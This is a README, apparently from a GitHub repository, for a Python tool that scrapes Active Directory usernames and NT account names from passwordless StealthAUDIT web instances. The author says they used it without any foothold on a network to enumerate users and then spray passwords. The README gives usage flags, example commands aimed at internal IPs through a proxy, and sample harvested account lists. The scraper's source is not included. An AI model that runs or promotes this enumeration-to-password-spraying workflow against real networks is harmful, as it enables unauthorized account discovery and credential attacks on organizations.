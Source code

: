 # Stealth_Audit_Scraper
This tool was created to scrape the <a href ="https://stealthbits.com/stealthaudit-for-active-directory-product/">StealthAUDIT Active Directory Auditing Tool</a>. Currently, it scrapes the users name and NT account name from `Active Directory > Users > User Token`. I wrote this because I had no foothold on a network and came across this gem. I immedately scraped all AD users then started spraying passwords! Right now this tool only works with passwordless StealthAUDIT instances. Good luck, have fun!

## stealth_scrape.py usage:
```
usage: stealth_audit_scraper.py [-h] [-o OUTFILE] [-u URL] [-p PROXY] [-pp PROXY_PORT]

StealthAUDIT Scraper >:D

optional arguments:
  -h, --help            show this help message and exit
  -o OUTFILE, --outfile OUTFILE
                        The file to write users to.
  -u URL, --url URL     The webserver in format {http://10.0.0.1:80}.
  -p PROXY, --proxy PROXY
                        The proxy ip in format {10.0.0.1}.
  -pp PROXY_PORT, --proxy_port PROXY_PORT
                        The proxy port in format {1080}.
```

   Basic usage of script:
   
    python3 stealth_scrape.py -u http://10.20.8.85 -p 127.0.0.1 -pp 1080 -o accounts.txt

   Advanced usage of stealth_scrape.py:
   
    $ python3 stealth_scrape.py -u http://10.15.8.20
    [+] Attempting to visit http://10.15.8.20
    [+] Clearing all cookies...
    [+] Dropping down menu
    NT_Account:contoso\administrator	Name:Administrator
    NT_Account:contoso\susanb	Name:Barin, Susan
    
   Example output of ad_users.txt:
   
    contoso\swilliams:Williams, Susan
    contoso\thawk:Hawk, Tony
    contoso\batman:Man, Bat
    contoso\dnutz:Nutz, Deez
    contoso\kmitnick:Mitnick, Kevin
    contoso\rmudge:Mudge, Raphael
    contoso\tmutton:Mutton, Tim
